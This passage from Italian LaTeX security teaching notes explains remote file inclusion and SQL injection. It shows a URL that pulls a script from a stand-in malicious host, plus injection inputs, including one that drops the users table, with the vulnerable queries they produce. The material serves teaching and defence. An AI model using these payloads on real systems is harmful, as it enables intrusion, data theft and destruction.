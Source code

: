 \begin{verbatim}
http://sito_esempio/esempio.php?includi=
http%3A%2F%2Fsito_malevolo.com%2Fmalevolo.php
\end{verbatim}

\subsection{Esempio 3: iniezioni SQL}

L'utente inserisce nel form caratteri ``strani'', per esempio:

\begin{verbatim}
Username: ' OR ''='
\end{verbatim}

Se nella pagina PHP leggiamo i valori inseriti dall'utente e li usiamo senza alcun controllo per interrogare il database:

\begin{lstlisting}[language=SQL]
$query = "SELECT * FROM utenti WHERE username='' OR ''=''";
\end{lstlisting}

La query seleziona tutti i record della tabella! Se poi il risultato viene visualizzato (sempre senza controlli) sulla pagina inviata al browser come risposta, l'utente potrà visualizzare tutto il contenuto della tabella \texttt{utenti}.

Se invece l'utente inserisce nel form qualcosa come:

\begin{verbatim}
Username: '; DROP TABLE utenti; --
\end{verbatim}

E nella pagina PHP i valori vengono usati senza controlli:

\begin{lstlisting}[language=SQL]
$query = "SELECT * FROM utenti WHERE
          username=''; DROP TABLE utenti; --'";
\end{lstlisting}

Dopo la prima query (\texttt{SELECT...}) viene eseguita una \texttt{DROP TABLE} che cancella l'intera tabella \texttt{utenti} dal DB. Il \texttt{--} serve per assicurarsi che qualunque cosa segua venga interpretato come commento e quindi non eseguito.

\section{Furto di sessione}

\subsection{Terminazione insufficiente della sessione}

